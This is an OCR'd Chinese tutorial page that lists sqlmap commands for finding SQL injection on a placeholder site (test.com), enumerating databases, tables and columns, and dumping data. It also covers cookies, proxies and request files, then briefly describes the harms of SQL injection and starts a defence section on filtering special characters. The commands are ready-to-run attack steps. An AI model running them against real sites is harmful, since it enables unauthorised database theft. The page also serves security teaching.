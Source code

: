 ```bash
sqlmap.py -u http://test.com/sql1.php?user=test&id=1 --dbs
```

-u 指定检测的URL地址 –dbs列出数据库

```bash
sqlmap.py -u "http://test.com/sql1.php" --data="user=test&id=1" -p id
```

--data post参数 –p 指定参数注入

```bash
sqlmap.py -u "http://test.com/sql1.php" --data="user=test&id=1" -p id --D mysql –tables
```

获取指定数据库的表名

```bash
sqlmap.py -u "http://test.com/sql1.php" --data="user=test&id=1" -p id --D mysql -T user –columns
```

获取指定数据库及指定表的列名

```bash
sqlmap.py -u "http://test.com/sql1.php" --data="user=test&id=1" -p id --D mysql -T user --dump
```

dump数据

```diff
-r c:\sqltest.txt  
```

加载请求数据

```ini
--cookie=COOKIE  
```

登录后的cookie

```ini
--proxy="http://127.0.0.1:8080"  
```

使用HTTP代理

# 防御SQL注入漏洞

这些危害包括但不局限于：

- 数据库信息泄漏：数据库中存放的用户的隐私信息的泄露。
- 网页篡改：通过操作数据库对特定网页进行篡改。
- 网站被挂马，传播恶意软件：修改数据库一些字段的值，嵌入网马链接，进行挂马攻击。
- 数据库被恶意操作：数据库服务器被攻击，数据库的系统管理员帐户被窜改。
- 服务器被远程控制，被安装后门。经由数据库服务器提供的操作系统支持，让黑客得以修改或控制操作系统。
- 破坏硬盘数据，瘫痪全系统。

一些类型的数据库系统能够让SQL指令操作文件系统，这使得SQL注入的危害被进一步放大。

**过滤特殊字符**：
单引号、双引号、斜杠、反斜杠、冒号、空字符等的字符
